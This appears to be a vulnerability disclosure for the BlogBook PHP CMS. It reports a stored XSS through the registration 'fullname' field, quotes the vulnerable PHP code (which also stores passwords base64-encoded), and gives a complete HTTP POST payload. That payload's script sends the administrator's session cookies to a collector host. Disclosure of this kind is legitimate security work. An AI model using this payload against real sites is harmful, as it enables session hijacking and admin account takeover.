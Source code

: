 # BlogBook Stored XSS in User Registration via fullname Parameter Leading to Admin Account Takeover

**Exploit Title: BlogBook Stored XSS in User Registration via fullname Parameter Leading to Admin Account Takeover**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A stored Cross-Site Scripting (XSS) vulnerability exists in the BlogBook application, exploitable through the user registration process and triggered within the admin panel. The application fails to adequately sanitize user-supplied input for the fullname parameter during new user account creation. Consequently, an attacker can register an account with malicious JavaScript code embedded in their fullname field. This malicious script is then stored in the application's database (as user_firstname).

The XSS payload is executed when an administrator or any privileged user navigates to the /admin/users.php page, which displays a list of registered users including their first names. The unsanitized user_firstname (containing the attacker's payload) is rendered directly on this page, causing the script to run in the administrator's browser.

This vulnerability was successfully exploited to steal session cookies (e.g., PHPSESSID) from an administrator viewing the /admin/users.php page. With the stolen administrator session cookie, an attacker can hijack the administrator's session, gaining full administrative control over the BlogBook application. This allows for unauthorized data access, modification, user impersonation, and potentially further system compromise.

## Vulnerability Point

`blogbook-main/register_script.php:7`

## Vulnerable Parameter

`fullname`

## Vulnerable Code

```php
<?php
include "includes/db.php";

$username = $_POST['username'];
$email = $_POST['email'];
$password = $_POST['password'];
$fullname = $_POST['fullname'];

$username = mysqli_real_escape_string($connection, $username);
$email = mysqli_real_escape_string($connection, $email);
$password = mysqli_real_escape_string($connection, $password);
$fullname = mysqli_real_escape_string($connection, $fullname);

$password = base64_encode($password);

$response['status'] = 'error';
$response['msg'] = 'Error';

$check_user_sql = "SELECT username FROM users WHERE username='$username'";
$check_user_query = mysqli_query($connection, $check_user_sql);

// check if user already exists
if ($check_user_query->num_rows) {
    $response['status'] = 'error';
    $response['msg'] = 'Username already exists!';
} else {
    $query = "INSERT INTO users(user_firstname,username,user_email,user_password,user_role) ";
    $query .= "VALUES('{$fullname}','{$username}','{$email}','{$password}','new')";
    $register_user_query = mysqli_query($connection, $query);

    if ($register_user_query) {
        $response['status'] = 'success';
        $response['msg'] = 'Registered Successfully! We will contact you soon!';
    } else {
        $response['status'] = 'error';
        $response['msg'] = 'Error occured. Please try again later!';
    }
}

// send responnse as json data
echo json_encode($response);
exit;
```
## Payload

```
POST /register_script.php HTTP/1.1
Host: localhost
Content-Length: 227
sec-ch-ua-platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Accept: */*
sec-ch-ua: "Chromium";v="136", "Microsoft Edge";v="136", "Not.A/Brand";v="99"
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
sec-ch-ua-mobile: ?0
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/registration.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=exec2&email=2@2.com&password=123&fullname=<script>
++var+img+%3d+new+Image()%3b
++var+cookieData+%3d+document.cookie%3b
++img.src+%3d+"http%3a//localhost%3a8000/%3fc%3d"+%2b+cookieData%3b
</script>&create_comment=1
```

![image-20250523113918911](./assets/image-20250523113918911.png)

![image-20250523113942569](./assets/image-20250523113942569.png)
